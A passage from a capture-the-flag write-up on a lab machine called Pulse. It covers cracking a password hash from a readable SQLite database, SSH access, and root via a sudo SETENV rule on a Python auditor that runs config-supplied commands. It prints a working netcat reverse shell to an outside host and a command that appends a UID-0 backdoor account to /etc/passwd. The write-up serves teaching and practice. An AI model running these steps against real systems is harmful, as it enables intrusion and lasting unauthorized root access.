The directory output highlighted an interesting, custom deployment directory tree belonging to `root` but fully readable by the `www-data` group `/opt/pulse/data/users.db`.

Because the `users.db` file grants read privileges to the `www-data` group, I dumped the contents directly to the terminal using `cat`. The file structure revealed an SQLite database schema complete with user definitions, system monitoring tables, and most importantly—**cryptographic password hashes** for platform administrators.
```bash
$ cat /opt/pulse/data/users.db
t�))�?tablesystem_metricssystem_metricsCREATE TABLE system_metrics (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    node_name TEXT NOT NULL,
    metric_type TEXT NOT NULL,
    metric_value REAL NOT NULL,
    recorded_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)��]tableusersusersCREATE TABLE users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT NOT NULL UNIQUE,
    email TEXT NOT NULL,
    role TEXT NOT NULL,
    password_hash TEXT NOT NULL,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
7t�717�3operatoroperator@pulse.hmvTier-1 NOC Specialist$6$pulse$H5kL9mP2qR4tV6wX8zA1cE3gI5kM7oQ9sU1wY3b5d7f9h1j3l5n7p9r1t3v52026-09-10 10:10:46�)E�K3alexalex@pulse.hmvLead Infrastructure Engineer$6$pulse$A0zjfe.Tf.0/0cJ6usQ/5FQMcTJJ5uADzhShund6hYEke.QqiWn7U5vAYbjc2exfZXGmHrrJTukBURkCqrjOk12026-09-10 10:10:46�     +/�3adminadmin@pulse.hmvPlatform Director$6$pulse$9QxK2vM3b1P4zY8nL0eW7tD5rA2sC6fG1hJ3kL5mN7pQ9rT1vW3xY5z0b2d4f6h82026-09-10 10:10:46
����
��E�D=#3Database-Cluster-Primaryram_percent@S�333332026-09-10 10:10:46=/#3Audit-Pipeline-01cpu_percent@"3333332026-09-10 10:10:46?3#3Telemetry-Broker-01ram_percent@N������2026-09-10 10:10:46?3#3Telemetry-Broker-01cpu_percent@<�2026-09-10 10:10:46;+#3Core-Gateway-01ram_percent@Effffff2026-09-10 10:10:46;+#3Core-Gateway-01cpu_percent@,ffffff2026-09-10 10:10:46$ 

```
Carving through the database output, I extracted three primary user profiles with their corresponding SHA-512 crypt (`$6$`) password strings:
- **`admin`** (Platform Director):  `$6$pulse$9QxK2vM3b1P4zY8nL0eW7tD5rA2sC6fG1hJ3kL5mN7pQ9rT1vW3xY5z0b2d4f6h8`
- **`alex`** (Lead Infrastructure Engineer): `$6$pulse$A0zjfe.Tf.0/0cJ6usQ/5FQMcTJJ5uADzhShund6hYEke.QqiWn7U5vAYbjc2exfZXGmHrrJTukBURkCqrjOk1`
- **`operator`** (Tier-1 NOC Specialist): `$6$pulse$H5kL9mP2qR4tV6wX8zA1cE3gI5kM7oQ9sU1wY3b5d7f9h1j3l5n7p9r1t3v5`

With the password hashes extracted from the SQLite database, the next step was to take them offline and attempt to crack them. I copied the raw hash strings from the shell output and formatted them into a clean text file named `hashes.txt` on my Kali machine, mapping each username to its respective hash using the standard format.
```bash
┌──(emvee㉿kali)-[~/Documents/Pulse]
└─$ nano hashes.txt

┌──(emvee㉿kali)-[~/Documents/Pulse]
└─$ cat hashes.txt            
admin:$6$pulse$9QxK2vM3b1P4zY8nL0eW7tD5rA2sC6fG1hJ3kL5mN7pQ9rT1vW3xY5z0b2d4f6h8
alex:$6$pulse$A0zjfe.Tf.0/0cJ6usQ/5FQMcTJJ5uADzhShund6hYEke.QqiWn7U5vAYbjc2exfZXGmHrrJTukBURkCqrjOk1
operator:$6$pulse$H5kL9mP2qR4tV6wX8zA1cE3gI5kM7oQ9sU1wY3b5d7f9h1j3l5n7p9r1t3v5
```
Since these are standard Linux SHA-512 (`crypt`) hashes, **John the Ripper** handles them natively without requiring a specific format flag. I ran John against our target file, leveraging the standard `rockyou.txt` wordlist to blast through common combinations.
```bash
┌──(emvee㉿kali)-[~/Documents/Pulse]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt   
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
starlight        (alex)     
1g 0:00:00:00 DONE (2026-11-08 20:19) 3.225g/s 6606p/s 6606c/s 6606C/s kucing..lovers1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
The database dump proved invaluable: **`alex`** was reusing the password **`starlight`** for the core production platform.

While our reverse shell via the Jinja2 sandbox injection worked fine, it was an unprivileged `www-data` web thread lacking terminal stability (`tty`) and clean layout bindings. Armed with Alex's password, I ditched the reverse shell environment and established a direct, formal **SSH** login stream to our designated IP variable.
```bash
┌──(emvee㉿kali)-[~/Documents/Pulse]
└─$ ip=10.0.2.34

┌──(emvee㉿kali)-[~/Documents/Pulse]
└─$ ssh alex@$ip       
alex@10.0.2.34's password: 
Welcome to Ubuntu 26.04.1 LTS (GNU/Linux 7.0.0-31-generic x86_64)

 * Documentation:  https://docs.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Nov  8 07:20:52 PM UTC 2026

  System load:  0.08               Processes:               109
  Usage of /:   20.0% of 19.51GB   Users logged in:         0
  Memory usage: 21%                IPv4 address for enp0s3: 10.0.2.34
  Swap usage:   0%

 * Canonical Workshop gives developers fast, composable, reproducible, and
   secure developer environments that are perfect for agentic workflows.

   https://ubuntu.com/workshop

Expanded Security Maintenance for Applications is not enabled.

141 updates can be applied immediately.
91 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


alex@pulse:~$ 

```
Entering the password `starlight` successfully authorized the connection and threw me directly into the core shell environment. We have now officially upgraded our access from an unstable web context (`www-data`) to a dedicated shell user environment under the user context of **`alex`** on the `pulse` host server. This is where the hunt for the final root flag truly begins.

Once logged in as `alex`, I was officially dropped into the home directory `/home/alex`. From here, I immediately claimed the user flag.
```bash
alex@pulse:~$ cat user.txt 
HMV{USER-FLAG}
alex@pulse:~$ pwd
/home/alex
alex@pulse:~$ whoami
alex
alex@pulse:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:e9:7a:43 brd ff:ff:ff:ff:ff:ff
    altname enx080027e97a43
    inet 10.0.2.34/24 metric 100 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 436sec preferred_lft 436sec
    inet6 fe80::a00:27ff:fee9:7a43/64 scope link proto kernel_ll 
       valid_lft forever preferred_lft forever
alex@pulse:~$ 
```

## Privilege escalation
With the user flag secured, it was time to search for a path to full root administrative access. The most efficient starting point is checking the active user's allowed sudo privileges.
```bash
alex@pulse:~$ sudo -l
User alex may run the following commands on pulse:
    (ALL : ALL) SETENV: NOPASSWD: /usr/local/bin/pulse-audit
```
To find our breakout vector, I used `cat` to inspect the contents of the allowed binary at `/usr/local/bin/pulse-audit`. It turned out to be a custom Python script designed to parse system infrastructure rules.
```bash
alex@pulse:~$ cat /usr/local/bin/pulse-audit
#!/usr/bin/env python3
import os
import sys
import json
import subprocess
import datetime

BANNER = """
======================================================
   Pulse Infrastructure Automated Security Auditor
   Version 1.8.2-enterprise
======================================================
"""

def main():
    print(BANNER)
    config_path = os.environ.get("PULSE_CONFIG", "/etc/pulse/audit_rules.json")
    print(f"[*] Loading audit profile from: {config_path}")

    if not os.path.isfile(config_path):
        print(f"[!] Error: Configuration file '{config_path}' not found.")
        sys.exit(1)

    try:
        with open(config_path, "r") as f:
            cfg = json.load(f)
    except Exception as e:
        print(f"[!] Error parsing configuration: {e}")
        sys.exit(1)

    policy = cfg.get("policy_name", "Standard-Baseline-Audit")
    print(f"[+] Active Audit Policy: {policy}")

    # Execute optional pre-audit initialization routine
    if "pre_audit_cmd" in cfg and cfg["pre_audit_cmd"]:
        print(f"[*] Executing pre-audit routine: {cfg['pre_audit_cmd']}")
        try:
            subprocess.run(cfg["pre_audit_cmd"], shell=True)
        except Exception as e:
            print(f"[!] Pre-audit task error: {e}")

    # Simulated system checks
    print("[*] Verifying critical service health...")
    services = cfg.get("monitored_services", ["nginx", "ssh", "pulse-monitor"])
    for svc in services:
        res = subprocess.run(["systemctl", "is-active", svc], capture_output=True, text=True)
        status = "ACTIVE (OK)" if res.returncode == 0 else "INACTIVE/FAILED"
        print(f"    - Service {svc:<15}: {status}")

    # Execute post-audit hooks
    if "post_audit_cmd" in cfg and cfg["post_audit_cmd"]:
        print(f"[*] Executing post-audit routine: {cfg['post_audit_cmd']}")
        try:
            subprocess.run(cfg["post_audit_cmd"], shell=True)
        except Exception as e:
            print(f"[!] Post-audit task error: {e}")

    print(f"\n[+] Audit scan completed successfully at {datetime.datetime.now().strftime('%Y-%m-%d %H:%M:%S')}")

if __name__ == "__main__":
    main()
alex@pulse:~$ 

```
Reviewing the code reveals a massive vulnerability stemming from how it loads its configuration file combined with our allowed `SETENV` sudo privilege.

**Environment Variable Control**

At the very beginning of the `main()` function, the script looks for an environment variable named `PULSE_CONFIG` to determine where to load its JSON configuration profile:
```python
config_path = os.environ.get("PULSE_CONFIG", "/etc/pulse/audit_rules.json")
```
If the variable is not set, it defaults to a system-protected path (`/etc/pulse/audit_rules.json`). However, since our `sudo -l` output explicitly gave us **`SETENV`** privileges, we can inject our own custom path into the `PULSE_CONFIG` environment variable when invoking the script!

**Arbitrary Command Execution Hooks**

Looking further down, if the script successfully reads and parses the JSON file, it explicitly checks for optional commands to execute before and after the core system scans.
```python
# Execute optional pre-audit initialization routine
if "pre_audit_cmd" in cfg and cfg["pre_audit_cmd"]:
    print(f"[*] Executing pre-audit routine: {cfg['pre_audit_cmd']}")
    try:
        subprocess.run(cfg["pre_audit_cmd"], shell=True)

```
The script reads the value of `pre_audit_cmd` directly from our supplied JSON file and passes it straight into `subprocess.run(..., shell=True)`. Because the script is invoked via `sudo`, the entire python interpreter executes as the `root` user. This means any system command defined under `pre_audit_cmd` or `post_audit_cmd` will be processed with highest administrative privileges.

To verify the expected structure of the configuration file, I checked the permissions and read the contents of the default profile at `/etc/pulse/audit_rules.json`
```bash
alex@pulse:~$ ll /etc/pulse/audit_rules.json
-rw-r--r-- 1 root root 223 Sep 10 10:11 /etc/pulse/audit_rules.json
alex@pulse:~$ cat /etc/pulse/audit_rules.json
{
    "policy_name": "Production-Baseline-Security-Audit",
    "monitored_services": ["nginx", "ssh", "pulse-monitor"],
    "pre_audit_cmd": "",
    "post_audit_cmd": "",
    "log_destination": "/var/log/pulse/audit.log"
}
alex@pulse:~$ 

```
The file is owned by `root` and write-protected, meaning we cannot modify the production hooks directly. However, the structure confirmed exactly what we saw in the source code analysis. The keys `pre_audit_cmd` and `post_audit_cmd` are natively empty strings waiting for input.

Since we can point the `PULSE_CONFIG` environment variable to any path we control, we can simply recreate this JSON structure inside the world-writable `/tmp` directory.

#### Method 1 - Reverse shell
The first approach aims for immediate, interactive root code execution. I generated a custom configuration file called rev_root.json and loaded a standard named-pipe reverse shell into the initialization hook.
```bash
alex@pulse:~$ cat << EOF > /tmp/rev_root.json
{
    "policy_name": "Root-Exploit-Audit",
    "monitored_services": ["ssh"],
    "pre_audit_cmd": "rm /tmp/bk;mkfifo /tmp/bk;cat /tmp/bk|sh -i 2>&1|nc 10.0.2.3 6666 >/tmp/bk",
    "post_audit_cmd": ""
}
EOF
alex@pulse:~$ 

```
Next, I set up a local Netcat listener on my Kali machine.
```bash
┌──(emvee㉿kali)-[~/Documents/Pulse]
└─$ nc -lvp 6666
listening on [any] 6666 ...

```
Finally, I executed the security auditor using sudo while supplying the custom environment configuration pointer.
```bash
alex@pulse:~$ sudo PULSE_CONFIG=/tmp/rev_root.json /usr/local/bin/pulse-audit

======================================================
   Pulse Infrastructure Automated Security Auditor
   Version 1.8.2-enterprise
======================================================

[*] Loading audit profile from: /tmp/rev_root.json
[+] Active Audit Policy: Root-Exploit-Audit
[*] Executing pre-audit routine: rm /tmp/bk;mkfifo /tmp/bk;cat /tmp/bk|sh -i 2>&1|nc 10.0.2.3 6666 >/tmp/bk
rm: cannot remove '/tmp/bk': No such file or directory

``` 
The application successfully loaded the profile and parsed the pre-audit routine.
Despite the minor error from rm trying to clear a non-existent pipe file, the script continued execution, fired the shell connection, and hit my listener with full root privileges.
```bash
┌──(emvee㉿kali)-[~/Documents/Pulse]
└─$ nc -lvp 6666
listening on [any] 6666 ...
connect to [10.0.2.3] from pulse.hmv [10.0.2.34] 58750
# whoami;id;hostname;ip a;cat /root/root.txt
root
uid=0(root) gid=0(root) groups=0(root)
pulse
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:e9:7a:43 brd ff:ff:ff:ff:ff:ff
    altname enx080027e97a43
    inet 10.0.2.34/24 metric 100 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 437sec preferred_lft 437sec
    inet6 fe80::a00:27ff:fee9:7a43/64 scope link proto kernel_ll 
       valid_lft forever preferred_lft forever
HMV{ROOT-FLAG}
# 

```

#### Method 2 - Backdoor user with root permissions
The second approach focuses on persistence. Instead of catching an external shell, we can leverage the root-level script to write a backdoor account directly into the local `/etc/passwd` file.
First, I used OpenSSL to create a valid SHA-512 password hash for our desired password (`password123`).
```bash
alex@pulse:~$ openssl passwd -6 -salt countersalt password123
$6$countersalt$1KVR60q6bkMkTuRdqI2CJ9k/IuICR7DGCUkrVg71dmv6knPn6GwynjFQKoR7fRUDXKg/c72.N3Oz4j7WAzHvO/
```
Next, I created another configuration file called add_user.json, appending a new account named backdoor configured with a UID and GID of `0` (granting automatic root access).
```bash
alex@pulse:~$ cat << EOF > /tmp/add_user.json
{
    "policy_name": "Persistence-Audit",
    "monitored_services": ["ssh"],
    "pre_audit_cmd": "echo 'backdoor:\$6\$countersalt\$1KVR60q6bkMkTuRdqI2CJ9k/IuICR7DGCUkrVg71dmv6knPn6GwynjFQKoR7fRUDXKg/c72.N3Oz4j7WAzHvO/:0:0:root:/root:/bin/bash' >> /etc/passwd",
    "post_audit_cmd": ""
}
EOF
alex@pulse:~$ 
```
Running the auditor with our persistence rules seamlessly appends the user entry to the system configuration.
```bash
alex@pulse:~$ sudo PULSE_CONFIG=/tmp/add_user.json /usr/local/bin/pulse-audit

======================================================
   Pulse Infrastructure Automated Security Auditor
   Version 1.8.2-enterprise
======================================================

[*] Loading audit profile from: /tmp/add_user.json
[+] Active Audit Policy: Persistence-Audit
[*] Executing pre-audit routine: echo 'backdoor:$6$countersalt$1KVR60q6bkMkTuRdqI2CJ9k/IuICR7DGCUkrVg71dmv6knPn6GwynjFQKoR7fRUDXKg/c72.N3Oz4j7WAzHvO/:0:0:root:/root:/bin/bash' >> /etc/passwd
[*] Verifying critical service health...
    - Service ssh            : ACTIVE (OK)

[+] Audit scan completed successfully at 2026-11-08 19:37:46
```
With the new account securely appended, I dropped into our backdoor identity from the existing SSH terminal and captured the flag.
```bash
alex@pulse:~$ su backdoor
Password: 
root@pulse:/home/alex# whoami;id;hostname;ip a;cat /root/root.txt
root
uid=0(root) gid=0(root) groups=0(root)
pulse
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:e9:7a:43 brd ff:ff:ff:ff:ff:ff
    altname enx080027e97a43
    inet 10.0.2.34/24 metric 100 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 388sec preferred_lft 388sec
    inet6 fe80::a00:27ff:fee9:7a43/64 scope link proto kernel_ll 
       valid_lft forever preferred_lft forever
HMV{ROOT-FLAG}
root@pulse:/home/alex# 

``` 

## Final thoughts
Pulse was a great CTF challenge that clearly demonstrated how minor configurations can compound into a complete system takeover. Here is a summary of the attack chain:
1. Enumeration: Uncovered vhost paths through an exposed robots.txt file and local DNS mapping.
2. Exploitation: Located an exposed `.git` directory on the monitor subdomain, extracted the repository using `git-dumper`, bypassed a Jinja2 template blacklist via string concatenation, and caught a shell as `www-data`.
3. Privilege Escalation: Collected offline password hashes from an insecure SQLite database file, cracked the developer's credentials using John the Ripper, and abused an unrestricted `SETENV sudo` privilege on a custom Python auditing binary to claim root.

The main takeaway here is clear: blacklists are never a substitute for strict input sanitization, and automated tooling executed under privileged scopes must never trust environment configurations provided by lower-privileged users. Thanks for reading, and happy hacking!